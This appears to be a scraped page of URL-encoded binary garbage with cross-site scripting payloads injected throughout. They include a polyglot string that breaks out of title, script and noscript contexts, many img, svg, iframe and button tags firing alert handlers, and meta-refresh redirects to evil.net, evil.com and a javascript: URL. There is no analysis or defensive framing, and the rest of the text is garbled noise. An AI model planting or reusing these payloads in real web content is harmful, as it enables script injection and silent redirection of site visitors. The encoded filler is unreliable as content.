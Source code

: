 #B2%CDq%02%C5%B2%AA%F8%8At%18%23%C9%DAGo%E4%B6%88%CD%89%A6%7B%16%1F%AA%C1c%3C%8Bn%F5%3D%D9%5EL%07l7%8A%AEt%95%C6%F4%AAX%D6%C3%0Da%2Cf%AE%3D%DC%86%7E%F6%D4%BE%FF%92B%CE%1B%0E%3F%91%978%9C%AD%99%88K%F8%BFx%0C%3D%1C%2B+%3F%B7U%3D%00%F4%11%21%B2%0E6%108%00%A5%E2%24%27%C0Q%EDUt%3E%BD%E6p%11%BF%E3%E9U%EF%80%B5%FF%E3%DD%25%5BS%F8%AF%E7%CDD%F9%9DnO%FF%EB%E0%BA%CD%BB%F2%BB%1D%15xw%A6%1F%2A%CCbTF%A53%AA%9Cf%D6%E2%3B%3Ag%84%2FIN%2B%21%05%F9u%24%CD%01%14%82%E8%C2%19XL%CD%964%3D%BB%EAm%0A%D6%C2%A8%E4%F7%FA%B9%F6%CF%9A%D5%EA%2F%82%1F%05ou%01%B9%AA%B6%1A%C3%AF%1F%28%9EH%E1%152%AA%11%04s%0E%F3%F8%BD%C8i%2B%DA%F8%DC%BC%10%E3%2F%90%C0%19%CE%C1V%C1%81_%BC1%83M%A30%60%19i%C4%01%17%5E%DD%92%85%22t%23%E9%EFI%14%DE%60%AB%9A%89%1F%40W%99%80%A1%C7%0EL%1A%AE%C0%93%5Dq%60%25E%B3%AA%DC%23-%7C%23%D77Fl%D0AtU%C8w%A8A%EA%B1%BB%85%D4%8DQI%04%E5%C4%2B%039%03%89%89%A9%FF%23%8E%22%5D%DF%B5%5E%29%E7%CB%92%94%A8%26X%A6%03%1B%95Y%19%C3%BD%1A%82%92%2A%F7Bz%23Y%DD%F6+U%88%97C%A3%EE%CFB%9E%CA%3Dw%F3%F7P5%3EO%9D1%88%DBBf%9AO%BB%B9+7%1E%CEy%7E%98%06%85mQ%A9%E0%D9%E5%11%83%9E3f%AC%DC%EA%C9f%27%DC%1B%89%1D%FA%FA3%C3%B3%02Om%D4%FC%A3Ji%28%ACa%A3%E1%7E%84%7C0%E1%ED%97%FAp%F6Z%2F%F6W%3Ex%E8%FE%10e%B2%0B%1E%DF%05_J%3DL%C3%22%E2%C8%3C%95%F1%85%2C%F6q7%12.%FD%09%F5%22k%24%031%3ED%D8%D7%C5%8A%1Ep%8A%90%29%2C%01bi%A8%06%C8%1D%7F%82a%C9%CF%F6F%E9%C3%E2%D7O%"'></title></div></p></noscript><svg/onload=alert(1)>CA%AE%B8%F0Ar%01%F8%7DK%A9%0E%ED%A4m5%D0%D4e%E1q%E52F%0A%A7%DF%0E%DE%3A%B1aye%02%1F%00z%5C%C4%BAJ%8FLB%5EG4%0D%E5%E6%12%C1%AF%A0%C6%B0%28-E7%13%B7HK%25%A4%16%88%7C%9A%17%7B4v%F3%AAl%D8%E7o%23%9F%12%FD%9EW%5Bq%BDw%3F3%9C%3D%CD%2A%BAW%16%E6%DB3%FD%D8%19%88%96%7B%A6%0F%8F%EBCx%9D%EB%C8%E5Z%91T%CF__%95%F8%C9%BD%7C%ED%FFX%98%C1%94w%BC%C5%BD%883%D1%B4%7D%5CJ%E8%CDU%EA%B6%F1%29%87%27p_M%C4%02%83w%40%C9NP%F4mx%E5p%2FIzR%89%24%9D%00OOh%0C%09%E3e%D0%01%17%7C%07T%95g%E9%B1%0AP%CD%3Ds-q%EE%F7%93%7D%BB%A6%D7%25%2C%BD%90%DD%D1%A5%8%22%3E%3Cimg%20src%20onerror=alert(1)%3E%20A%85%F6%CA%8F%14f%E5%DE%91%8F%29%EFlQ%C1%3A%E1.%F5%C6HS%0BL%C5C%B2Z%11%B6%82%3A%29J%9F%99%A5%E0%24V8E%FB%CD%D1%B8%85%F5%1F%F4Q%9E3%D0D|$\/'"}])([{;//><<src\u00/</script></div></title></p></noscript><!-- <script>alert(1);//<img src onerror=alert();</<img src onerror=alert();</<img src onerror=alert();'">/<img src onerror=alert();>/<img src onerror=alert();>/<img src onerror=alert();</<img src onerror=alert();/</<img src onerror=alert();'">>porn}])([{/\'"$|<meta http-equiv="refresh" content="0;URL=http://evil.net"><meta http-equiv="refresh" content="0;URL=javascript:alert(9)">|$\/'"}])([{;//>/<img src onerror=alert();</<img src onerror=alert();</<img src onerror=alert();'">/<img src onerror=alert();>/<img src onerror=alert();>/<img src onerror=alert();</<img src onerror=alert();/</<img src onerror=alert();'">>porn}])([{/\'"$|<meta http-equiv="refresh" content="0;URL=http://evil.net"><meta http-equiv="refresh" content="0;URL=javascript:alert(9)">B2%CDq%02%C5%B2%AA%F8%8At%18%23%C9%DAGo%E4%B6%88%CD%89%A6%7B%16%1F%AA%C1c%3C%8Bn%F5%3D%D9%5EL%07l7%8A%AEt%95%C6%F4%AAX%D6%C3%0Da%2Cf%AE%3D%DC%86%7E%F6%D4%BE%FF%92B%CE%1B%0E%3F%91%978%9C%AD%99%88K%F8%BFx%0C%3D%1C%2B+%3F%B7U%3D%00%F4%11%21%B2%0E6%108%00%A5%E2%24%27%C0Q%EDUt%3E%BD%E6p%11%BF%E3%E9U%EF%80%B5%FF%E3%DD%25%5BS%F8%AF%E7%CDD%F9%9DnO%FF%EB%E0%BA%CD%BB%F2%BB%1D%15xw%A6%1F%2A%CCbTF%A53%AA%9Cf%D6%E2%3B%3Ag%84%2FIN%2B%21%05%F9u%24%CD%01%14%82%E8%C2%19XL%CD%964%3D%BB%EAm%0A%D6%C2%A8%E4%F7%FA%B9%F6%CF%9A%D5%EA%2F%82%1F%05ou%01%B9%AA%B6%1A%C3%AF%1F%28%9EH%E1%152%AA%11%04s%0E%F3%F8%BD%C8i%2B%DA%F8%DC%BC%10%E3%2F%90%C0%19%CE%C1V%C1%81_%BC1%83M%A30%60%19i%C4%01%17%5E%DD%92%85%22t%23%E9%EFI%14%DE%60%AB%9A%89%1F%40W%99%80%A1%C7%0EL%1A%AE%C0%93%5Dq%60%25E%B3%AA%DC%23-%7C%23%D77Fl%D0AtU%C8w%A8A%EA%B1%BB%85%D4%8DQI%04%E5%C4%2B%039%03%89%89%A9%FF%23%8E%22%5D%DF%B5%5E%29%E7%CB%92%94%A8%26X%A6%03%1B%95Y%19%C3%BD%1A%82%92%2A%F7Bz%23Y%DD%F6+U%88%97C%A3%EE%CFB%9E%CA%3Dw%F3%F7P5%3EO%9D1%88%DBBf%9AO%BB%B9+7%1E%CEy%7E%98%06%85mQ%A9%E0%D9%E5%11%83%9E3f%AC%DC%EA%C9f%27%DC%1B%89%1D%FA%FA3%C3%B3%02Om%D4%FC%A3Ji%28%ACa%A3%E1%7E%84%7C0%E1%ED%97%FAp%F6Z%2F%F6W%3Ex%E8%FE%10e%B2%0B%1E%DF%05_J%3DL%C3%22%E2%C8%3C%95%F1%85%2C%F6q7%12.%FD%09%F5%22k%24%031%3ED%D8%D7%C5%8A%1Ep%8A%90%29%2C%01bi%A8%06%C8%1D%7F%82a%C9%CF%F6F%E9%C3%E2%D7O%CA%AE%B8%F0Ar%01%F8%7DK%A9%0E%ED%A4m5%D0%D4e%E1q%E52F%0A%A7%DF%0E%DE%3A%B1aye%02%1F%00z%5C%C4%BAJ%8FLB%5EG4%0D%E5%E6%12%C1%AF%A0%C6%B0%28-E7%13%B7HK%25%A4%16%88%7C%9A%17%7B4v%F3%AAl%D8%E7o%23%9F%12%FD%9EW%5Bq%BDw%3F3%9C%3D%CD%2A%BAW%16%E6%DB3%FD%D8%19%88%96%7B%A6%0F%8F%EBCx%9D%EB%C8%E5Z%91T%CF__%95%F8%C9%BD%7C%ED%FFX%98%C1%94w%BC%C5%BD%883%D1%B4%7D%5CJ%E8%CDU%EA%B6%F1%29%87%27p_M%C4%02%83w%40%C9NP%F4mx%E5p%2FIzR%89%24%9D%00OOh%0C%09%E3e%D0%01%17%7C%07T%95g%E9%B1%0AP%CD%3Ds-q%EE%F7%93%7D%BB%A6%D7%25%2C%BD%90%DD%D1%A5%8%22%3E%3Cimg%20src%20onerror=alert(1)%3E%20A%85%F6%CA%8F%14f%E5%DE%91%8F%29%EFlQ%C1%3A%E1.%F5%C6HS%0BL%C5C%B2Z%11%B6%82%3A%29J%9F%99%A5%E0%24V8E%FB%CD%D1%B8%85%F5%1F%F4Q%9E3%D0D
<img method=post  src="//iqoption.com" onload=alert();alert(8)>
<meta method=post  src="//iqoption.com" onload=alert();alert(8)>
<html method=post  src="//iqoption.com" onload=alert();alert(8)>
<div method=post  src="//iqoption.com" onload=alert();alert(8)>

<p method=post  src="//iqoption.com" onload=alert();alert(8)>

<a method=post  href="//iqoption.com" onload=alert();alert(8)>xss</a>
<iframe method=post  src="//iqoption.com" onload=alert();alert(8)></iframe>

<img method=head  src="//iqoption.com" onload=alert();alert(8)>
<meta method=head  src="//iqoption.com" onload=alert();alert(8)>
<html method=head  src="//iqoption.com" onload=alert();alert(8)>
<div method=head  src="//iqoption.com" onload=alert();alert(8)>

<p method=head  src="//iqoption.com" onload=alert();alert(8)>

<a method=head  href="//iqoption.com" onload=alert();alert(8)>xss</a>
<iframe method=head  src="//iqoption.com" onload=alert();alert(8)></iframe>

<button method=head href="javascript:alert()" src="javascript:alert()" type=submit value=submit onllclick=alert();alert(8)>

<button method=post href="javascript:alert()" src="javascript:alert()" type=submit value=submit onllclick=alert();alert(8)>

<input method=head href="javascript:alert()" src="javascript:alert()" type=submit value=submit onllclick=alert();alert(8)>

<input method=post href="javascript:alert()" src="javascript:alert()" type=submit value=submit onllclick=alert();alert(8)>

<meta method=post http-equiv="refresh" content="2;url=https://evil.com">
<meta method=head http-equiv="refresh" content="2;url=https://evil.com">
<meta method=delete http-equiv="refresh" content="2;url=https://evil.com">
<meta method=put http-equiv="refresh" content="2;url=https://evil.com">
